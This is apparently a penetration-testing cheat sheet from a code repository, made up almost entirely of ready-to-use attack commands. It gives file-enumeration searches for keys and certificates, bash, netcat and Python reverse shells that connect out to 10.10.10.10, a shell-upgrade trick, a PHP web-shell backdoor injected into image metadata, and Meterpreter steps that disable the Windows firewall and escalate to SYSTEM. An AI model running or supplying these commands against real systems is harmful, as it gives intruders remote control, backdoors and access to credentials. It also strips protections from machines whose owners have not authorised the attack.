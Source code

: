 ## CHEATSHEET
### Linux

Find user owned files
~~~
find / -user $(whoami) 2>/dev/null | egrep -v '(/proc)'
~~~

Find writeable files
~~~
find / -writeable 2>/dev/null | egrep -v '(/proc|/run|/dev)'
~~~

Find readable files with following extensions
~~~
find / -readable 2>/dev/null | egrep '(\.key$|\.pub$|\.bak$|\.crt$|\.ca$|^id_rsa)'
~~~

Bash reverse shell
~~~
bash -i >& /dev/tcp/10.10.10.10/444 0>&1
~~~

Netcat reverse shell
~~~
nc -e /bin/bash 10.10.10.10 444
nc -e /bin.sh 10.10.10.10 444
~~~

Python reverse shell
~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
~~~

Upgrade shell with Python
~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo
F+G+ENTER
~~~

Find files that aren't installed by the system
~~~
for i in $(ls $(pwd)/*); do dpkg --search $i 1>/dev/null; done
~~~

Inject PHP into image
~~~
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
~~~

**Windows**

Metasploit windows meterpreter session
~~~
execute -f cmd.exe -c -H
shell
netsh firewall show opmode
netsh advfirewall set allprofiles state off
getsystem
~~~
